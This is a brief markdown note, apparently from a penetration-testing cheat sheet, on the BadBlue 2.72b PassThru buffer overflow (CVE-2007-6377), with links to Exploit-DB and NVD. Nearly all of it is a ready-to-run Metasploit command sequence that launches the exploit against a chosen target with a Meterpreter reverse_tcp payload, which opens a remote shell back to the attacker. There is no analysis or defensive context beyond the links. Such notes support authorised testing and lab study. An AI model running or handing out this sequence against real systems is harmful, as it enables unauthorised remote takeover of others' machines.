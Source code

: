 # BadBlue 2.72b PassThru Buffer Overflow

## Exploit

```
msf6> use exploit/windows/http/badblue_passthru
msf6> set payload windows/meterpreter/reverse_tcp
msf6> set rhosts <target>
msf6> set lhost eth0
msf6> run
```

- Exploit-DB - 16806 : https://www.exploit-db.com/exploits/16806

- CVE-2007-6377 Details : https://nvd.nist.gov/vuln/detail/CVE-2007-6377

